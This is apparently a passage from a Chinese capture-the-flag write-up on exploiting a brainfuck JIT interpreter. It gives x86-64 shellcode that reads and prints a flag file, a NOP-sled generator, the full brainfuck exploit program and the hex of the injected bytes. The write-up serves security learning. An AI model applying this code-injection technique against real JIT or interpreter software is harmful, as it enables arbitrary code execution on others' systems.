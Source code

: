       先来写一段目标代码，读取flag2并且写入到`stdout`：
      ```unix-assembly
      .text
      .global _start

      _start:
        movq $2, %rax
        leaq flag2_name(%rip), %rdi
        xorq %rsi, %rsi
        syscall // fd = open("flag2", O_RDONLY)

        movq %rax, %rdi
        xorq %rax, %rax
        leaq flag2_content(%rip), %rsi
        movq $0x100, %rdx
        syscall // read(fd, flag2_content, 0x100)

        movq $1, %rax
        movq %rax, %rdi
        leaq flag2_content(%rip), %rsi
        movq $0x100, %rdx
        syscall // write(1, flag2_content, 0x100)

        nop

      flag2_name: .string "flag2"
      flag2_content: .skip 0xff
      ```
      然后在输出这段目标代码前先输出足够多的`nop`指令（0x90）：
      ```bash
      for ((i=0;i<512;++i)) do
        echo -e -n '\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90'
      done
      ```
      最后通过brainfuck的读入功能写到代码区域：
      ```brainfuck
      +[->,+]
      ```
      注意这里以0xff作为代码截止的标记。
  3. 触发代码执行：JIT编译的代码是从前往后放置的，所以实际上只需把前述所有代码放在一个大循环里，在循环的第二次解释执行时一定会遇到早期代码的JIT编译执行，这期望执行一个保存JIT代码区域前部的函数，因为前部已经被目标代码前部的`nop`指令覆盖，那么就会触发目标代码执行。

完整brainfuck代码为：
```brainfuck
+[+++[->++++<]>>>+++++[-<----->]<--<[>-[[>]+[<]>>-]+<[>[>]<+[<]>-]>[>]<<[-]>--]>>[>]>++++[->++++<]>>---<[>-[[>]+[<]>>-]+<[>[>]<+[<]>-]>[>]<<[-]>--]>++++++++[->++++<]>>--<[>-[[>]+[<]>>-]+<[>[>]<+[<]>-]>[>]<<[-]>--]>++++[->++++<]>[->++++<]>>-----<[>-[[>]+[<]>>-]+<[>[>]<+[<]>-]>[>]<<[-]>--]>>--[>+<--]>+>---<[>-[[>]+[<]>>-]+<[>[>]<+[<]>-]>[>]<<[-]>--]>>--[>-[[>]+[<]>>-]+<[>[>]<+[<]>-]>[>]<<[-]>--]+++++++++++++++++++++++++++++++++.[-]+[->,+]+++++++++++++++++++++++++++++++++.[-]-]
```

插入的代码16进制表示为：
```text
48 c7 c0 02 00 00 00
48 8d 3d 36 00 00 00
48 31 f6
0f 05
48 89 c7
48 31 c0
48 8d 35 2a 00 00 00
48 c7 c2 00 01 00 00
0f 05
48 c7 c0 01 00 00 00
48 89 c7
48 8d 35 10 00 00 00
48 c7 c2 00 01 00 00
0f 05
```